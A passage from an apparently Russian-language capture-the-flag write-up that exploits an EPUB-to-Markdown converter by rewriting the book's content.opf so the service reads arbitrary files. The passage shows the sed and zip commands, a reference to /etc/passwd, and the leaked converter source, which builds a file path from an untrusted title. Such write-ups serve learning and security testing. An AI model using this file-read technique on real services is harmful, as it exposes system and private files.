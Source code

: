 Итак, мы можем прочитать более-менее любой файл на файловой системе. В `/flag` и других подобных путях ничего не оказывается, поэтому попробуем прочитать единственный несистемный файл, путь к которому мы точно знаем — `/home/bookkeeper/books/convert.py`:

```shell
$ sed -i 's!/etc/passwd!/home/bookkeeper/books/convert.py!' OEBPS/content.opf
$ zip -r ../test-book.zip .
updating: mimetype (stored 0%)
updating: META-INF/ (stored 0%)
updating: META-INF/container.xml (deflated 27%)
updating: OEBPS/ (stored 0%)
updating: OEBPS/content.opf (deflated 48%)
```

```
Archive:  book.epub
 extracting: mimetype                
   creating: META-INF/
  inflating: META-INF/container.xml  
   creating: OEBPS/
  inflating: OEBPS/content.opf       
Rootfile found at OEBPS/content.opf
Title: When Sysadmins Ruled the Earth
Output: /tmp/converted/When Sysadmins Ruled the Earth.md
```

```python
#!/usr/bin/env python3
import os
import re
import subprocess
import sys
import xml.etree.ElementTree as ET

subprocess.run(["unzip", "book.epub"], check=True)

with open("mimetype") as f:
    if f.read() != "application/epub+zip":
        print("This is not a EPUB file")
        sys.exit(1)

container = ET.parse("META-INF/container.xml")

rootfile = (
    container
    .find("{urn:oasis:names:tc:opendocument:xmlns:container}rootfiles")
    .find("{urn:oasis:names:tc:opendocument:xmlns:container}rootfile")
    .get("full-path")
)
print("Rootfile found at", rootfile)

opf = ET.parse(rootfile)

title = (
    opf
    .find("{http://www.idpf.org/2007/opf}metadata")
    .find("{http://purl.org/dc/elements/1.1/}title")
    .text
)
print("Title:", title)

os.makedirs("/tmp/converted", exist_ok=True)
out_path = f"/tmp/converted/{title}.md"[:100]
f_out = open(out_path, "w")

items = (
```